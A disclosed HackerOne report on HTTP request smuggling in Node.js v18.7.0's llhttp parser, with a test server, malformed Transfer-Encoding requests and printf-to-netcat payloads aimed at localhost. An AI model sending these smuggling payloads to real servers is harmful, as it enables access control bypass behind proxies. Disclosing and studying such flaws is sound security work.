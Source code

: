 # HTTP Request Smuggling Due to Incorrect Parsing of Header Fields

## Report Details
- **Report ID**: 1675191
- **URL**: https://hackerone.com/reports/1675191
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-08-20T03:13:30.523Z
- **Disclosed**: 2022-10-26T08:17:59.080Z

## Reporter
- **Username**: vvx7
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs

## Vulnerability Information
**Summary:** 
The `llhttp` parser in the `http` module in Node v18.7.0 does not correctly handle header fields that are not terminated with CLRF. This may result in HTTP Request Smuggling.

**Description:** 
The following chunked request is processed.  It should be rejected as `Transfer-Encoding` header obfuscation may result in HRS when the upstream proxy does not process the `Transfer-Encoding` header.

A header that precedes the `Transfer-Encoding`, contains an empty value, and is not properly delimited with CLRF may be used for TE obfuscation. 
```
POST / HTTP/1.1
Host: localhost:5000
x:\nTransfer-Encoding: chunked

1
A
0

```

The request is rejected when the preceding header has a value but improper CLRF.
```
POST / HTTP/1.1
Host: localhost:5000
x:x\nTransfer-Encoding: chunked

1
A
0

```

## Steps To Reproduce:

Server
Run the server: `node app.js`

```js
// https://nodejs.org/en/docs/guides/anatomy-of-an-http-transaction/
const http = require('http');

http.createServer((request, response) => {
  let body = [];
  request.on('error', (err) => {
    response.end("Request Error: " + err)
  }).on('data', (chunk) => {
        body.push(chunk);
  }).on('end', () => {
    body = Buffer.concat(body).toString();

    // log the body to stdout to catch the smuggled request
    console.log("Response");
    console.log(request.headers);
    console.log(body);
    console.log("---");

    response.on('error', (err) => {
      // log the body to stdout to catch the smuggled request
        response.end("Response Error: " + err)
    });

    response.end("Body length: " + body.length.toString() + " Body: " + body);
  });
}).listen(5000);
```
Payload
```bash
printf "POST / HTTP/1.1\r\n"\
"Host: localhost\r\n"\
" x:\nTransfer-Encoding: chunked\r\n"\
"\r\n"\
"1\r\n"\
"A\r\n"\
"0\r\n"\
"\r\n" | nc localhost 5000
```
Output
```
HTTP/1.1 200 OK
Date: Sat, 20 Aug 2022 02:59:38 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 22

Body length: 1 Body: A
```
Note:
```bash
printf "POST / HTTP/1.1\r\n"\
"Host: localhost\r\n"\
" Transfer-Encoding: yeet\r\n"\
" Transfer-Encoding: \n"\
" Transfer-Encoding: chunked\r\n"\
"\r\n"\
"1\r\n"\
"A\r\n"\
"0\r\n"\
"\r\n" | nc localhost 5000
```
This also works with the resulting wonky header:
```
HTTP/1.1 200 OK
Date: Sat, 20 Aug 2022 03:06:09 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 22

Body length: 1 Body: A
Response
{ host: 'localhost:5000', 'transfer-encoding': 'yeet, , chunked' }
A
```

## Impact:

HRS can lead to access control bypass and other issues.

## Supporting Material/References:
{F1875064}


https://hackerone.com/reports/1501679
https://hackerone.com/reports/1238709

## Impact

HTTP Request Smuggling can lead to access control bypass.

## Attachments
- CleanShot_2022-08-19_at_23.09.24.png
